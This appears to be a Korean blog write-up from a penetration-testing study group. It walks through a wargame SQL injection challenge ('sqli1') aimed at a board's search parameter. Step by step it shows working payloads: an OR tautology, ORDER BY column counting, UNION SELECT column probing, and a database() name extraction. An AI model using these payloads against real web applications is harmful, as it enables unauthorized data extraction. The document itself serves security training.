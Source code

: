 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 6주차 워게임 (1) sqli1, sql2
author: leewoojin
date: 2025-05-09 00:00:00 +0900
categories: [Pentest, W6]
tags: []
---
```


해당 문제는 게시판의 `search` 파라미터에서 SQL Injection을 통해 **숨겨진 데이터(flag)** 를 추출하는 문제였습니다.

사전에 [PortSwigger Labs](https://portswigger.net/web-security/sql-injection)에서 SQLi를 학습했기 때문에 쉽게 접근할 수 있을 줄 알았는데, 생각보다 고전했습니다.  

---

## 🧪 시도 과정 및 풀이

### 🎯 시도 1 – SQL Injection이 가능한가?
```
normaltic' OR '1'='1-- 
```

✅ SQL 인젝션 성공 확인

<img src="https://github.com/user-attachments/assets/9a59b257-028f-4390-bbd1-c3f857d3c01a" width="600"/>

### 🎯 시도 2 – 컬럼 수 확인
```
normaltic' ORDER BY 1 --    ✅ 성공  
normaltic' ORDER BY 5 --    ❌ 실패
```
✅ 컬럼 수는 4개로 추정됨

### 🎯 시도 3 – 출력 컬럼 식별
```
normaltic' UNION SELECT 1,2,3,4 -- 
```
✅ 1~4 전부 출력 가능

<img src="https://github.com/user-attachments/assets/2c96a69b-2772-4aa3-b803-fa0839f7e887" width="600"/>

### 🎯 시도 4 – DB 이름 확인
```
normaltic' UNION SELECT database(),2,3,4 -- 
```
✅ DB 이름은 sqli_1

<img src="https://github.com/user-attachments/assets/27d3cde4-c5cf-4863-a971-c8866cc36c1d" width="600"/>
